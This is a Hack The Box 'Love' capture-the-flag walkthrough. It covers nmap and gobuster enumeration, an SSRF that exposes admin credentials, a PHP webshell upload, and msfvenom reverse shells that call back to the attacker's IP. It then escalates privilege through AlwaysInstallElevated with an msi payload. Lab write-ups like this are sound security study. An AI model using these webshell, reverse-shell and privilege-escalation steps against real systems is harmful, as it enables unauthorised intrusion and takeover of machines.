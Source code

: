 ```yaml
---
title: "[HTB] Love - Walkthrough"
layout: post
tags: HTB
---
```

## Enumeration

We scan with nmap and find these ports:
* 80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
* 135/tcp  open  msrpc        Microsoft Windows RPC
* 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
* 443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
* 445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
* 3306/tcp open  mysql?
* 5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

We see that the webpage has a login, and it doesn't seem vulnerable to SQLi, let's enumerate directories with gobuster.
`gobuster dir -u http://10.10.10.239/ -w /usr/share/wordlists/dirb/common.txt -r`
We see several paths

![Pasted image 20210709165815.png](/assets/Pasted%20image%2020210709165815.png)

port 443 with SSL gives us forbidden, we notice there is host named `staging.love.htb` in the certificate, let's add this host to our `/etc/hosts`

We see it's scanning service, when we try to give it a file from our machine it outputs the content, let's see if we can get something from localhost that are forbidden for us, like port 5000.

It's a password dashboard. we have admin creds.
`admin: @LoveIsInTheAir!!!!`
Connect in the /admin page.

We have access to admin dashboard.
We go to the voters page and see there is 1 voter.
![Pasted image 20210709174255.png](/assets/Pasted%20image%2020210709174255.png)
We take the ID and edit the password to `password`

We see that we can upload a user photo to our admin, let's upload a php webshell, and query it from the /images folder of the website, make sure to change the shell to `cmd`.

 Since it didn't work for me, i uploaded a reverse shell exe and used the shell variable of the php webshell to execute the reverse shell compiled with msfvenom.
 ```php
 <?php
 system('rev.exe');
 ?>
 ```
 
 ```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.152 LPORT=4444 -f exe > rev.exe
 ```
 
 We get a shell:
 
 ![Pasted image 20210709180908.png](/assets/Pasted%20image%2020210709180908.png)
 We get the user flag in desktop of user`phoebe`
 # Priv Esc
 Let's get Administrator user.
 ```batch
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![Pasted image 20210709181428.png](/assets/Pasted%20image%2020210709181428.png)
So we can exploit [Always Install Elevated exploit](https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated)

According to the article, here is the steps we need to follow
```md
# Generate payload to add user to admin group
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi-nouac -o setup.msi

OR

# Create a reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi

# Run it on the target machine:
msiexec /quiet /qn /i setup.msi 
msiexec /quiet /qn /i reverse.msi        <--- Needs a netcat listener
```
So we generate an msi file. An msi file is a installer in windows, so we can install an exe that will execute a reverse shell with admin permissions
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.152 LPORT=1234 -f msi -o reverse.msi
```
We upload it using curl and a Python server on our machine
![Pasted image 20210709182227.png](/assets/Pasted%20image%2020210709182227.png)
We install the `reverse.msi` with
```batch
msiexec /quiet /qn /i reverse.msi
```
And we get our admin shell
![Pasted image 20210709183353.png](/assets/Pasted%20image%2020210709183353.png)